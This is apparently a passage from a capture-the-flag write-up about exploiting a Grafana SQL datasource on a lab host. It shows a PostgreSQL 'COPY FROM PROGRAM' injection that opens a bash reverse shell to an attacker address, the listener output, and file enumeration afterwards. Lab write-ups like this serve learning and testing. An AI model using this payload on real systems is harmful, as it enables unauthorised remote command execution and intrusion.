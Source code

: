 #### Exploiting Grafana

So, when Grafana works with a SQL databases/datasources, it can ran SQL queries, if we give a pretty wide open permissions to the user that runs the queries behind Grafana, we are exposing it at high risk:
{{< limg "/i/2023-08-21_09-30.png" "SQL Injection in Grafana" >}}

SQL Injection with Revshell bash
```http
"rawSql":"DROP TABLE IF EXISTS cmd_exec; CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'bash -c \"bash -i >& /dev/tcp/10.10.14.8/55555 0>&1\"';",
```

```bash
z➤ nc -lvnp 55555
Connection from 10.10.11.216:51216
bash: cannot set terminal process group (1275): Inappropriate ioctl for device
bash: no job control in this shell
postgres@jupiter:/var/lib/postgresql/14/main$ id
uid=114(postgres) gid=120(postgres) groups=120(postgres),119(ssl-cert)
```

Ok, so navigating through the files, I found an interesting file under /`dev/shm`:
```bash
postgres@jupiter:/var/lib/postgresql/14/main$ find / -type f -perm -0200 -group postgres 2>/dev/null | egrep -v '\/var\/lib|\/proc\/'
<stgres 2>/dev/null | egrep -v '\/var\/lib|\/proc\/'
/dev/shm/PostgreSQL.2348814554
/run/postgresql/14-main.pid
/run/postgresql/.s.PGSQL.5432.lock
/run/postgresql/14-main.pg_stat_tmp/global.stat
/run/postgresql/14-main.pg_stat_tmp/db_0.stat
/run/postgresql/14-main.pg_stat_tmp/db_1.stat
/run/postgresql/14-main.pg_stat_tmp/db_13761.stat
/run/postgresql/14-main.pg_stat_tmp/db_16384.stat
/etc/postgresql/14/main/start.conf
/etc/postgresql/14/main/pg_hba.conf
/etc/postgresql/14/main/pg_ident.conf
/etc/postgresql/14/main/environment
/etc/postgresql/14/main/pg_ctl.conf
/etc/postgresql/14/main/postgresql.conf
```

It is a data file
```bash
postgres@jupiter:/var/lib/postgresql/14/main$ file /dev/shm/PostgreSQL.2348814554
<gresql/14/main$ file /dev/shm/PostgreSQL.2348814554
/dev/shm/PostgreSQL.2348814554: data
postgres@jupiter:/var/lib/postgresql/14/main$ ls /dev/shm
ls /dev/shm
network-simulation.yml
PostgreSQL.2348814554
shadow.data
```
